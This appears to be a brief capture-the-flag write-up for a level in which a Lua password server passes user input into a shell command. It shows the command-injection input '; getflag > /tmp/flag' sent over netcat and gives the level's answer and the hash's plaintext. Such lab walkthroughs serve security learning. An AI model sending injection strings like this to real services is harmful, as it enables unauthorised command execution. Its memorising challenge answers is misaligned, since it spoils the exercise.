 There is only one file, level11.lua, which already is running. It is a simple server that asks for a password, compare its SHA1 hash with a predetermined hash, and respond with a message depending on if the hash is correct.

After following the red herring of the hash, we realize that since the server is directly concatenating the password in a shell command, an injection is very easy to do.

- Connect to the server with netcat: `nc localhost 5151`
- The server asks for a password, write `; getflag > /tmp/flag`
- Read the created file to get the flag `cat /tmp/flag`
- And voilà !

The hash was matching the string "NotSoEasy" by the way...
